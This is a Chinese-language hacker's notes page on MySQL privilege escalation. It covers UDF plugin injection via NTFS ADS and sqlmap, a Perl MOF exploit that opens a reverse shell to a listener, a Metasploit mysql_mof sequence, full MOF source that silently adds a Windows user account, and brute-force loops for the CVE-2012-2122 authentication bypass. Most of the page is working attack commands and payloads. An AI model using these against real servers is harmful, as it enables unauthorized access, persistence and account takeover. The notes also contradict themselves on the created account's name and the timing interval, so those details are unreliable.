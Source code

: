 ### 前言

事出有因，发现mysql的提权还不是很熟。需要研究一下。
另外，作为一个黑客。对于一个什么东西一定要熟。你把它研究透了，从内到外都滚瓜烂熟了，才有可能在遇到需要他的时候成功利用。
你永远不知道下一秒会发生什么。很有可能下一秒机会就出现，而那些真正厉害的黑客一定是早早就把可能用到的东西研究透了，早就烂熟于心。这样才能在那些稍纵即逝的机会面前抓住他。
不只是第一步，思路一定要清晰。在踏出第一步之前就已经对于每一步可能发生的情况都非常清楚，知道要向什么方向走。

#### UDF

##### 创建文件夹

因为默认是没有这个文件夹的：C:/Users/username/Documents/phpstudy/MySQL/lib/plugin

```
select @@basedir;   
//查找到mysql的目录
select 'It is dll' into dumpfile 'C:\\Users\\username\\Documents\\phpstudyMySQL\\lib::$INDEX_ALLOCATION';   
//利用NTFS ADS创建lib目录
select 'It is dll' into dumpfile 'C:\\Users\\username\\Documents\\phpstudyMySQL\\lib\\plugin::$INDEX_ALLOCATION';
//利用NTFS ADS创建plugin目录
```

##### udf注入

[linux_udf_64.so](./linux_udf_64.txt)这个不知道函数名是啥。。

[linux_udf常用命令](./mysql-udf命令.txt)

##### udf马

[udf.php](./udf.php)

##### udf反弹shell

[mysqlShellExp.txt](./mysqlShellExp.txt)这个udf.dll文件有点大，可能有后门。。。

运行创建函数的时候会提示没有这个函数，但实际上是成功的。

![image-20200728135149596](./image-20200728135149596.png)

![image-20200728144754247](./image-20200728144754247.png)

##### mysql自动化上传

python sqlmap.py -u 'xxxx' --file-write=/lib_mysqludf_sys.so  --file-dest=/usr/lib/mysql/plugin/

### mof提权

要winServer2003以下才能用。。

[国外大神0day工具](https://github.com/offensive-security/exploitdb-bin-sploits/blob/master/bin-sploits/23083.zip)

**用法：**

```bash
perl mysql_win_remote.pl 10.211.55.3 root root 10.211.55.4 9999
                        mysql服务器地址 账号 密码 反弹shell地址 端口
```

perl需要安装 DBD::mysql DBD 模块。mac10.15.5 安装失败。。

##### MSF

win7的用msf模块打了，不成功。

```bash
use exploit/windows/mysql/mysql_mof
set password root
set username
set rhost
set rport
set lhost
exploit
```

据说windows2003可以，回头试一下。

##### 手动

nullevt.mof文件源码

```
#pragma namespace("\\\\.\\root\\subscription")
instance of __EventFilter as $EventFilter
{
EventNamespace = "Root\\Cimv2";
Name = "filtP2";
Query = "Select * From __InstanceModificationEvent "
"Where TargetInstance Isa \"Win32_LocalTime\" "
"And TargetInstance.Second = 5";
QueryLanguage = "WQL";
};
instance of ActiveScriptEventConsumer as $Consumer
{
Name = "consPCSV2";
ScriptingEngine = "JScript";
ScriptText =
"var WSH = new ActiveXObject(\"WScript.Shell\")\nWSH.run(\"net.exe user test$ cKediTor /add\")";
};
instance of __FilterToConsumerBinding
{
Consumer = $Consumer;
Filter = $EventFilter;
};
```

系统每五秒创建一个账户`ghtwf011`，里面命令可以自定义
使用sql语句将文件导入到`c:/windows/system32/wbem/mof/`下

```
select load_file("C:/phpstudy/WWW/nullevt.mof") into dumpfile "c:/windows/system32/wbem/mof/nullevt.mof"
```

利用的是windows系统的一个机制，以管理员权限每5分钟执行一次。万一成功了想要删掉需要：

```
net stop winmgmt
net user ghtwf011 /delete
切换到 c:/windows/system32/wbem 目录
del repository
net start winmgmt
```

#### hackmysql综合利用工具

[https://github.com/T3st0r-Git/HackMySQL](https://github.com/T3st0r-Git/HackMySQL)

集成了**全自动udf一键执行命令**(里面有几个自带的dll，不知道有没有后门)

![image-20200728111918702](./image-20200728111918702.png)

**写启动项**

**LPK.dll劫持系统目录提权**

这个试了也提示成功但实际上是没有这个账户的。。

![image-20200728111712200](./image-20200728111712200.png)

![image-20200728111730064](./image-20200728111730064.png)

#### 允许远程连接

更改 "mysql" 数据库里的 user 表里的 host 项，将 localhost 改为 %

#### CVE-2012-2122 Mysql身份认证漏洞

不断尝试登陆，平均256次就能成功一次。无需密码。

```python
#!/usr/bin/python
import subprocess

while 1:
        subprocess.Popen("mysql -u root -p -h 192.168.0.16 --password=test", shell=True).wait()
```

```bash
for i in `seq 1 1000`; do mysql -u root -p -h 192.168.0.16 --password=bad 2>/dev/null; done
```

